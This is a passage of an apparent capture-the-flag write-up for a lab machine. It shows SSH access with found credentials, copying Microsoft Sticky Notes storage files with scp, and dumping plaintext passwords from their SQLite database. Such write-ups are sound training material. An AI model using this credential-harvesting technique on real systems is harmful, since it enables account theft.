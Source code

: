 In there are credentials that can be tested on SSH:
```
ssh juliette@10.10.10.228
```

The credentials are working and privileges got escalated to _juliette_.

### Privilege Escalation 2

The file _todo.html_ in the desktop directory of _juliette_ has some potential hints:
```html
<tr>
    <th>Task</th>
    <th>Status</th>
    <th>Reason</th>
</tr>
<tr>
    <td>Configure firewall for port 22 and 445</td>
    <td>Not started</td>
    <td>Unauthorized access might be possible</td>
</tr>
<tr>
    <td>Migrate passwords from the Microsoft Store Sticky Notes application to our new password manager</td>
    <td>In progress</td>
    <td>It stores passwords in plain text</td>
</tr>
<tr>
    <td>Add new features to password manager</td>
    <td>Not started</td>
    <td>To get promoted, hopefully lol</td>
</tr>
```

The second task to migrate the passwords from the **Microsoft Store Sticky Notes application** sounds like it could have credentials.
The location of the data of this application is in _C:/Users/juliette/AppData/Local/Packages/Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe_ and in the folder _LocalState_ are session and SQLite files that can be downloaded to our local client:
```
scp juliette@10.10.10.228:/Users/juliette/AppData/Local/Packages/Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe/LocalState/* .
```

Dumping contents of the SQLite database:
```
sqlite> .dump

sqlite> select * from Note;
```
```
id=48c70e58-fcf9-475a-aea4-24ce19a9f9ec juliette: jUli901./())!
id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
```
